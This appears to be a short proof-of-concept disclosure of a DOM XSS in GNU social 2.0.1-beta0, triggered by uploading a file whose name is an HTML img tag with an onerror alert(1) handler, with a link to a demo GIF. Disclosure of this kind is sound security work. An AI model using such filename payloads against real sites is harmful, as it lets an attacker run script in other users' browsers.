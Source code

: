 Vulnerability: GNU SOCIAL 2.0.1-beta0 DOM XSS
URL: Any File Upload for posting content.
Payload: ```<img src="x" onerror="alert(1);">.png```
Action to trigger: 
Version: ‎Version: GNU_SOCIAL_2.0.1-beta0
Authenticated: Yes
User: Any Account


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/GNU_SOCIAL_2.0.1-beta0_DOM_XSS_via_Fileupload.gif)
